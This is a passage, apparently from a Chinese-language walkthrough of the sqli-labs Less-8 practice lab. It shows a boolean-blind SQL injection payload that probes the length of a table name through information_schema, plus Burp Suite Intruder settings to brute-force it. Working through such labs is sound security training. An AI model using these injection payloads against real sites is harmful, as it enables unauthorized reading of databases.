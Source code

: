   得到数据库名security

- 爆破数据库security第一个表名长度

  ```
  /sqlilabs/Less-8/
  ?id=1' and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1 ) =5  -- s
  ```

  BP开启拦截 => 抓包 => 转发至Intruder => 设置一个Payload位置（表名长度）使用Sniper模式

  ![](/assets/images/8-15.png)

  ![](/assets/images/8-16.png)

  Payload设置（字符位置）：数值1-20  表名长度一般不超过20
